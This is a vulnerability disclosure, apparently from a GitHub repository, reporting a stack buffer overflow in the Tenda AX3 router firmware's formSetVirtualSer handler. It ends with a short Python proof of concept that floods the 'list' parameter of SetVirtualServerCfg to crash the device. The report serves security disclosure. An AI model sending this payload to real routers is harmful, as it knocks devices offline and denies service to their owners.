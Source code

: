 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **formSetVirtualSer**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **list** parameter . <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **formSetVirtualSer**, the content obtained by program through parameter **list** given by http is passed to variable **v4**. Variable **v4** enters the function **save_virtualser_data** as a parameter, and a stack overflow vulnerability exists within **save_virtualser_data** <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/22.png) <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/23.png) <br>
<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/SetVirtualServerCfg"

payload = "a"*0x1000
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/24.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/25.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/26.png)
